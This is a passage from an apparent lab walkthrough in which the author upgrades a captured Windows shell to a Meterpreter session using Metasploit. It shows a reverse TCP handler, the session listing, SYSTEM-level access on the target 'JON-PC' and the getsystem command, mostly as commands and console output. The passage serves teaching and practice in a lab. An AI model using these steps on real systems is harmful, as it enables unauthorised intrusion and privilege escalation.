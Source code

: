 `set SESSION 1`

#### 4) Run! If this doesn't work, try completing the exploit from the previous task once more.

`msf5 post(multi/manage/shell_to_meterpreter) > run`

> [*] Upgrading session ID: 1
> 
> [*] Starting exploit/multi/handler
> 
> [*] Started reverse TCP handler on 10.10.220.78:4433 
> 
> [*] Post module execution completed
> 
> msf5 post(multi/manage/shell_to_meterpreter) > 
> 
> [*] Sending stage (176195 bytes) to 10.10.36.127
> 
> [*] Meterpreter session 2 opened (10.10.220.78:4433 -> 10.10.36.127:49209) at 2022-08-01 21:08:24 +0100
> 
> [*] Stopping exploit/multi/handler

#### 5) Once the meterpreter shell conversion completes, select that session for use.

`sessions -l`

> Active sessions
>   
> ===============
> 
>   Id  Name  Type                     Information                                                                       Connection
>   
> --  ----  ----                     -----------                                                                       ----------
>   
> 1         shell x64/windows        Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.10.220.78:4444 -> 10.10.36.127:49202 (10.10.36.127)
>   
> 2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JON-PC                                                      10.10.220.78:4433 -> 10.10.36.127:49209 (10.10.36.127)

`mmsf5 post(multi/manage/shell_to_meterpreter) > sessions 2`

> [*] Starting interaction with 2...

#### 6) Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'.

`meterpreter > getsystem`
